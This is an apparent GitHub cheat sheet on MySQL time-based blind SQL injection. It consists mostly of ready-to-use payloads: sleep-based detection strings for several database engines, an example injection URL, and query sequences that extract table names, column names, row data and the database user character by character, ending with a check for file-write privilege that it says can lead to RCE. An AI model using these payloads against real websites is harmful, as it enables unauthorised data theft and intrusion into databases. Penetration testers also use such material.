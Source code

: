 

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi#mysql-time-based-sql-injection-cheatsheet)

This is almost the same technique followed as [Blind Based SQLi](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi)

## Detecting the vulnerability

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi#detecting-the-vulnerability)

The following stacked query detects if the website if vulnerable to Time Based SQL injection, by checking the website time response. The following condition is True because 1=1, which later executes the sleep function, so a 10 seconds delay is what we are expenting on the website's response.

```sql
SELECT CASE WHEN (1=1) THEN pg_sleep(25) ELSE pg_sleep(0) END--
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
1'=sleep(25)='1
'%2b(select*from(select(sleep(2)))a)%2b'
WAITFOR DELAY '0:0:25';--
OR SLEEP(25)
AND SLEEP(25) AND ('kleiton'='kleiton
WAITFOR DELAY '0:0:25' and 'a'='a;--
IF 1=1 THEN dbms_lock.sleep(25);
SLEEP(25)
pg_sleep(25)
and if(substring(user(),1,1)>=chr(97),SLEEP(25),1)--
DBMS_LOCK.SLEEP(25);
AND if not(substring((select @version),25,1) < 52) waitfor delay  '0:0:25'--
1,'0');waitfor delay '0:0:25;--
(SELECT 1 FROM (SELECT SLEEP(25))A)
%2b(select*from(select(sleep(25)))a)%2b'
/**/xor/**/sleep(25)
or (sleep(25)+1) limit 1 --
```

Example: `http://domain.com/index.php?id=15'XOR(if(now()=sysdate(),sleep(5*5),0))OR'`  
If the websites response is ~15 seconds, it means it is vulnerable to this kind of attack.

## Retrieving the tables

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi#retrieving-the-tables)

Find the first character of the first table:

```sql
and if((select SUBSTRING(table_name,1,1) from information_schema.tables where table_schema=database() limit 0,1)='a', sleep(10), null)--
```

Find the second character of the first table:

```sql
and if((select SUBSTRING(table_name,2,1) from information_schema.tables where table_schema=database() limit 0,1)='a', sleep(10), null)--
```

Find the third character of the first table:

```sql
and if((select SUBSTRING(table_name,3,1) from information_schema.tables where table_schema=database() limit 0,1)='a', sleep(10), null)--
```

Find the first character of the second table:

```sql
and if((select SUBSTRING(table_name,1,1) from information_schema.tables where table_schema=database() limit 1,1)='a', sleep(10), null)--
```

Find the second character of the second table:

```sql
and if((select SUBSTRING(table_name,2,1) from information_schema.tables where table_schema=database() limit 1,1)='a', sleep(10), null)--
```

So if you have realised by far, we are using this logic: limit **3**,1 -> the number of the table (targeting the third character) table_name,**3**,1 -> the number of the character in the table (targeting the fourth character of the table [the first character starts from 0, not 1])

_**Guess table names**_

If you don't want to bruteforce character by character every possible table on the db, it is more efficient to bruteforce the names (if a table name is found, the request will be delayed for 5 seconds). Guess the name of the first table:

```sql
and IF(SUBSTRING((select 1 from [guess_your_table_name] limit 0,1),1,1)=1,SLEEP(5),1)
```

## Retrieving the columns from a table

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi#retrieving-the-columns-from-a-table)

A table has 1 or more columns. To dump the first character of the first table, use the following query:

_**Guessing the columns**_  
(bruteforce [guess_your_column_name] with random column names untill the request is delayed by 5 seconds. Also replace [existing_table_name] with the table that you found from the previous step):

```sql
pic_id=13 and IF(SUBSTRING((select substring(concat(1,[guess_your_column_name]),1,1) from [existing_table_name] limit 0,1),1,1)=1,SLEEP(5),1)-- -
```

## Retrieving the data from the columns

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi#retrieving-the-data-from-the-columns)

The following payload will search for the first character of the first column in the database. If the character is guessed, then it will sleep for 5 seconds (remember to replace **table_name** and **column_name** with the table and column that you found on the previous step):

```sql
and if((select mid(column_name,1,1) from table_name limit 0,1)='a',sleep(5),1)--
```

To search for the first character of third column in the database, you should increase the number to 3:

```sql
and if((select mid(column_name,3,1) from table_name limit 0,1)='a',sleep(5),1)--
```

To search for the third character of the first column, you should increate the first number after **table_name limit** to 2 (the first index is 0):

```sql
and if((select mid(column_name,1,1) from table_name limit 2,1)='a',sleep(5),1)--
```

# Privilege escalation

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi#privilege-escalation)

## Finding the db user

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi#finding-the-db-user)

Find the first character of the user (if guessed then the request will be 5 seconds delayed):

```sql
and if(substring(user(),1,1)='a',SLEEP(5),1)--
```

Find the second character of the user... and so on:

```sql
and if(substring(user(),2,1)='d',SLEEP(5),1)--
```

## Enumerate user's permission

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi#enumerate-users-permission)

The following query will show if the user we found from the previous step, has writing permission, which can lead to RCE:

```sql
AND if (MID((SELECT file_priv FROM mysql.user WHERE user = 'root'),1,1) = 'Y', sleep(10), null)--
```